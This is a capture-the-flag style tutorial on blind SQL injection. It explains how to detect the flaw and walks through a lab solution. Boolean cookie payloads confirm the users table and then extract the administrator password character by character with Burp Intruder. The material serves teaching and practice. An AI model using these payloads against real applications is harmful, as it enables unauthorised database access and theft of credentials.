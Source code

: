 # SQL Injection: Blind SQL Injection

## Introduction

Blind SQL Injection is a type of SQL injection attack where the attacker cannot see the result of the query directly. Instead, they infer information from the application's behavior, such as differences in response times or error messages. This method is useful when error messages are not displayed, but the application still processes the injected SQL commands. Sadly blind injection challenges are generally harder than normal SQLi question, but that doesn't mean you can't solve it :)

## Table of Contents

- [SQL Injection: Blind SQL Injection](#sql-injection-blind-sql-injection)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [How to identify](#how-to-identify)
  - [Code/tools/websites](#codetoolswebsites)
    - [Tools](#tools)
    - [Websites](#websites)
  - [Sample problem](#sample-problem)
    - [Problem Statement](#problem-statement)
    - [Solution](#solution)
  - [References](#references)
  - [Conclusion](#conclusion)

## How to identify

To identify Blind SQL Injection vulnerabilities, pay attention to subtle differences in application responses. Indicators include:

1. **Behavior Testing:** Entering SQL syntax that does not produce visible errors but causes changes in application behavior, such as differences in response times or content.
2. **Boolean-based Testing:** Using boolean conditions (true/false) to determine the existence of a vulnerability.
3. **If Statements**: This is one of the key techniques for Blind SQL Injection. Also very useful to test simpler things blindly yet accurately. The syntax is slightly different based on the database used.
     *   MySQL If Statement

         > IF(condition,true-part,false-part)\
         > SELECT IF(1=1,'true','false')

     *   SQL Server If Statement

         > IF condition true-part ELSE false-part\
         > IF (1=1) SELECT 'true' ELSE SELECT 'false'
     *   Oracle If Statement

         > IF condition THEN true-part; ELSE false-part; END IF;\
         > IF (1=1) THEN dbms\_lock.sleep(3); ELSE dbms\_lock.sleep(0); END IF;
     *   PostgreSQL If Statement

         > SELECT CASE WHEN condition THEN true-part ELSE false-part END;\
         > SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END;
     *   SQLite If Statement

         > if(condition, true-part, false-part)\
         > SELECT iif(1<2, "True", "False");
4. **Time-based Testing:** Using time delays (e.g., `SLEEP` function) to measure response times and infer database information. (More on this in [here](./time_based_blind_injections.md))

Example:
```plaintext
http://example.com/item.php?id=1 AND 1=1 -- (Normal response)
http://example.com/item.php?id=1 AND 1=2 -- (Different response)
```
 or maybe a form
 ```
 Product ID: A97HY  (Normal response)
 Product ID: true --  (Different response)
 ```

## Code/tools/websites

### Tools
- **SQLMap:** An automated tool for SQL injection and database takeover.
- **Burp Suite:** A web vulnerability scanner with tools for manual testing.
- **Havij:** An automated SQL injection tool.

### Websites

> https://ctflearn.com/challenge/430 [Quite hard]
> 
Hint: First use auth by-pass then start applying blind SQL.
## Sample problem

### Problem Statement
You are provided with a web application that uses a tracking [cookie](https://dev.to/arikaturika/web-cookies-beginners-guide-28lh) for analytics, and performs a SQL query containing the value of the submitted cookie.

The application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. 

Identify if the application is vulnerable to Blind SQL Injection and find out the password of the administrator user.

<details>
<summary>HINT</summary>

The query used in the backend will look something like this:

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```
</details>

### Solution
<details>
<summary>Click to reveal the solution</summary>

#### Confirm vulnerable parameter

Due to the type of vulnerability, we can not see any result of the query. However, if we can craft requests that allow for dedicated `good` and `bad` answers, we can ask the database anything it can answer with `TRUE` or `FALSE`.

So as a first step we need to confirm that the parameter is vulnerable by crafting requests that give `good` or `bad` answers.

1. The good case:

    For the `good` query, we take an input that always evaluates to `TRUE`, like `1=1`.

    ```sql
    SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and 1=1--'
    ```

    The content of the cookie is

    `Cookie: TrackingId=qnLH78fKAPMJdjw7' and 1=1--; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

    The webpage shows "Welcome back"

2. The bad case

    For the `good` query, we take an input that always evaluates to `FALSE`, like `1=2`.

    ```sql
    SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and 1=2--'
    ```

    The content of the cookie is

    `Cookie: TrackingId=qnLH78fKAPMJdjw7' and 1=2--; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

    The webpage does not show "Welcome back"

    As we found a vulnerable parameter, we can omit the session value from now on.

#### Confirm expected table

Now confirm that the `users` table exists. For this, select a string  from the table and compare the result to it.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and  (select 'x' from users LIMIT 1)='x'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select 'x' from users LIMIT 1)='x'--`

The webpage shows "Welcome back". 

#### Verify negative result

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and  (select 'x' from usersX LIMIT 1)='x'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select 'x' from usersX LIMIT 1)='x'--`

The webpage does not show "Welcome back"

#### Verify columns exist as expected

Now onto the same verification regarding the column names

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select username from users where username='administrator')='administrator'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select username from users where username='administrator')='administrator'--`

The webpage shows "Welcome back". Negative case with a different column name has been verified.

#### Get the length of the password (could be hash as well)

Find out the length of the password. For this, we use the `LENGTH` function of the database and compare it with numbers.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select username from users where username='administrator' and LENGTH(password)=1)='administrator'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select username from users where username='administrator' and LENGTH(password)=1)='administrator'--`

The webpage does not show "Welcome back", so the password is not of length 1.

As an alternative, I can check with '>' instead of '='. It results in the "Welcome back" message meaning the password is longer than 1 character.

We can also Brute force the length with Burp Intruder (Sniper, Payload is '1' argument in query)

![Enumerate the length of the password](../../../assets/blind-sqli/img/length_of_password.png)

![Enumerate length of password full results](../../../assets/blind-sqli/img/length_of_password_result.png)

Thus we found that the password is exactly 20 characters long.

#### Enumerate password of the administrator

Now that we have the length of the password, we can brute force each character individually. If the database would store a hash of the password, we could extract the hash for offline cracking.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select substring(password,1,1) from users where username='administrator')='a'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select substring(password,1,1) from users where username='administrator')='a'--`

We find out that the first character is not an `a`, but using Burp Suite Intruder this can be automated easily. With the free version, this is rather slow but gets the work done. You can write a [python script](../../../assets/blind-sqli/script.py) to do this too (but it is out of scope for this topic).

![Enumerate the first character of the password](../../../assets/blind-sqli/img/enumerate_password_first.png)

The first character is 'k'

#### Automate this

Now automate this for all characters, again using either Burp Intruder or a python script.

Attack type: *Cluster bomb*

![Cluster bomb setup](../../../assets/blind-sqli/img/enumerate_password_cluster_bomb.png)

- *Payload 1*: numeric sequential, 1...20
- *Payload 2*: Brute force (see above) - for real-life, add special characters

This results in these responses with the 'Welcome Back' message:

![Result of password enumeration](../../../assets/blind-sqli/img/enumerate_password_result.png)

Reordering it numerically according to Payload 1 will result in the password: kdd113dnq7t34h70nhj7

Now you can login as the administrator.
</details>

## References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection/blind)
- [SQLMap Documentation](https://sqlmap.org/)

## Conclusion

Blind SQL Injection exploits differences in application behavior to infer database information without directly viewing the results. Identifying and exploiting these vulnerabilities requires careful observation and systematic testing.